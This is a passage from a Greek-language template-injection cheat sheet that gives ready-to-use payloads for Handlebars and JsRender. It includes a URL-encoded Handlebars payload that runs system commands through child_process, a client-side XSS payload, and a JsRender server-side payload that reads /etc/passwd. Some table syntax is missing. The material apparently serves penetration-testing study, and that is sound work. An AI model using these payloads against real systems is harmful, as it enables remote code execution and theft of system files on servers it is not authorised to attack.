 ```java
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}

URLencoded:
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```
**Περισσότερες πληροφορίες**

* [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

### JsRender (NodeJS)

| **Πρότυπο** | **Περιγραφή**                         |
| ------------ | --------------------------------------- |
|              | Αξιολόγηση και απόδοση εξόδου              |
|              | Αξιολόγηση και απόδοση HTML κωδικοποιημένου εξόδου |
|              | Σχόλιο                                 |
| και          | Επιτρέπεται ο κώδικας (απενεργοποιημένο από προεπιλογή)        |

* \= 49

**Πλευρά Πελάτη**
```python
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```
**Εξυπηρετητής Πλευρά**
```bash
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```
**Περισσότερες πληροφορίες**

* [https://appcheck-ng.com/template-injection-jsrender-jsviews/](https://appcheck-ng.com/template-injection-jsrender-jsviews/)
